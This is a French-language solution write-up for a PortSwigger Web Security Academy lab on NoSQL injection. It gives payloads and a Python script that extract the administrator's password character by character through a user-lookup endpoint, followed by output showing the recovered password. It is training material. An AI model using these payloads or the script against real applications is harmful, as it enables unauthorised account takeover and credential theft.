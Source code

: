 # Lab

https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data

## Solution

Payloads utilisés :

- `' && this.password[{}] != null || 'a'=='b` : permet de vérifier si le caractère à la position {} est présent dans le mot de passe, ce qui nous permet d'extraire la longueur du mot de passe
- `' && this.password[{}] == {} || 'a'=='b` : permet de vérifier si le caractère à la position {} est égal au caractère {} passé en paramètre, ce qui nous permet d'extraire le mot de passe caractère par caractère
 
```python
import requests

LAB_URL = "https://0ac8003403534e9a82875455001c004a.web-security-academy.net"
LAB_USER_LOOKUP_PATH = "/user/lookup?user="
DICTIONARY = "abcdefghijklmnopqrstuvwxyz"
USER_AIMED = "administrator"
PAYLOADS = {
    "RETREIVE_LENGTH": "'+%26%26+this.password[{}]+!%3d+null+||+'a'%3d%3d'b",  # ' && this.password[{}] != null || 'a'=='b
    "RETREIVE_PASSWORD": "'+%26%26+this.password[{}]+%3d%3d+'{}'+||+'a'%3d%3d'b" # ' && this.password[{}] == {} || 'a'=='b
}

SESSION_COOKIE = "C1QllF2KaapATR2h30pT5J4EqyMUEjoz"

def check_session_cookie():
    cookies = {"session": SESSION_COOKIE }
    r = requests.get(LAB_URL + LAB_USER_LOOKUP_PATH + USER_AIMED, cookies=cookies)
    if "Unauthorized" in r.text:
        print("Session cookie is not valid, please update it")
        exit(1)
    else:
        print("Session cookie is valid, starting script")

def extract_password_length(max_length=100):
    for i in range(1, 100):
        payload = PAYLOADS["RETREIVE_LENGTH"].format(i)
        cookies = {"session": SESSION_COOKIE }
        r = requests.get(LAB_URL + LAB_USER_LOOKUP_PATH + USER_AIMED + payload, cookies=cookies)
        if USER_AIMED not in r.text:
            return i
        
def extract_password():
    check_session_cookie()
    password = ""
    length = extract_password_length()
    for i in range(length):
        for c in DICTIONARY:
            payload = PAYLOADS["RETREIVE_PASSWORD"].format(i, c)
            cookies = {"session": SESSION_COOKIE }
            r = requests.get(LAB_URL + LAB_USER_LOOKUP_PATH + USER_AIMED + payload, cookies=cookies)
            if USER_AIMED in r.text:
                print("Found character: {} at position {}".format(c, i))
                password += c
                break
    return password

if __name__ == "__main__":
    print(extract_password())
```

```
Session cookie is valid, starting script
Found character: x at position 0
Found character: x at position 1
Found character: j at position 2
Found character: h at position 3
Found character: f at position 4
Found character: v at position 5
Found character: p at position 6
Found character: k at position 7
xxjhfvpk
```